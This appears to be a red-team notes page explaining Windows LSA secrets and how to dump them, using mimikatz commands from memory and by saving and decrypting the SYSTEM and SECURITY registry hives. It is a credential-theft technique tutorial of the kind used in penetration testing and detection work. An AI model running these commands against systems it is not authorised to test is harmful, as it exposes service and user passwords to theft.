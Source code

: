 # Dumping LSA Secrets

> #### **What is stored in LSA secrets?**
>
> Originally, the secrets contained cached domain records. Later, Windows developers expanded the application area for the storage. At this moment, they can store PC users' text passwords, service account passwords (for example, those that must be run by a certain user to perform certain tasks), Internet Explorer passwords, RAS connection passwords, SQL and CISCO passwords, SYSTEM account passwords, private user data like EFS encryption keys, and a lot more. For example, the _NL$KM_ secret contains the cached domain password encryption key.

## Storage

LSA Secrets are stored in registry:

```
HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets
```

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-20-39.png)

## Execution

### Memory

Secrets can be dumped from memory like so:

{% code title="attacker@mimikatz" %}
```
token::elevate
lsadump::secrets
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-25-01.png)

### Registry

LSA secrets can be dumped from registry hives likes so:

{% code title="attacker@victim" %}
```csharp
reg save HKLM\SYSTEM system & reg save HKLM\security security
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-37-11.png)

{% code title="attacker@mimikatz" %}
```csharp
lsadump::secrets /system:c:\temp\system /security:c:\temp\security
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-38-02.png)

## References

{% embed url="https://www.passcape.com/index.php?section=docsys&cmd=details&id=23" %}

